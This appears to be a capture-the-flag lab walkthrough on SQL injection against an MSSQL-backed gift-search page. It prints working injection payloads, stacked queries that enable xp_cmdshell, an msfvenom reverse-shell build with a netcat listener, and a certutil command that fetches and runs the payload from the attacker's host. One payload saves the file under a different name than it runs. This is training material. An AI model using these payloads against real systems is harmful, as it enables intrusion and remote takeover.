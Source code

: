 # Inject the Halls with EXEC Queries

## Solution
- Hit "Start Machine" and navigate to http://IP.
- Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature? 

![Alt text](image.png)

- Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
Inject a single quote on the "age" parameter to get the error.
```bash
http://10.10.234.198/giftresults.php?age=teenager%27&interests=toys&budget=80
```

![Alt text](image-1.png)

- Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
Inject the payload ' or 1=1;-- into the "age" parameter.
```bash
http://10.10.234.198/giftresults.php?age=teenager%27%20or%201=1;--&interests=toys&budget=80
```

![Alt text](image-2.png)

- What flag is in the note file Gr33dstr left behind on the system?
Enable xp_cmdshell injecting a stacked-query into the "age" parameter.
```bash
Payload:
'; EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
http://10.10.234.198/giftresults.php?age=teenager%27;%20EXEC%20sp_configure%20%27show%20advanced%20options%27,%201;RECONFIGURE;EXEC%20sp_configure%20%27xp_cmdshell%27,%201;RECONFIGURE;--&interests=toys&budget=80
```
Prepare a reverse shell with msfvenom.
```bash
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.170.28 LPORT=4444 -f exe -o rev.exe
```
Start the netcat listener.
```bash
nc -lvnp 4444
```
Host the rev.exe file on the attacker machine.
```bash
python -m http.server 8888
```
Download and execute the rev.exe on the target machine through SQL injection.
Payload:
```bash
'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.8.170.28:8888/rev.exe C:\Windows\Temp\met.exe'; EXEC xp_cmdshell 'C:\Windows\Temp\rev.exe';--
http://10.10.234.198/giftresults.php?age=teenager%27;%20EXEC%20xp_cmdshell%20%27certutil%20-urlcache%20-f%20http://10.8.170.28:8888/rev.exe%20C:\Windows\Temp\rev.exe%27;%20EXEC%20xp_cmdshell%20%27C:\Windows\Temp\rev.exe%27;--&interests=toys&budget=80
```

![Alt text](image-3.png)

Browse C:\Users\Administrato\Desktop to find the flag.
```bash
type Note.txt
```

![Alt text](image-4.png)

- What is the flag you receive on the homepage after restoring the website?
To restore the website just run the suggested bat script.
```bash
restore_website.bat
```

![Alt text](image-5.png)

![Alt text](image-6.png)
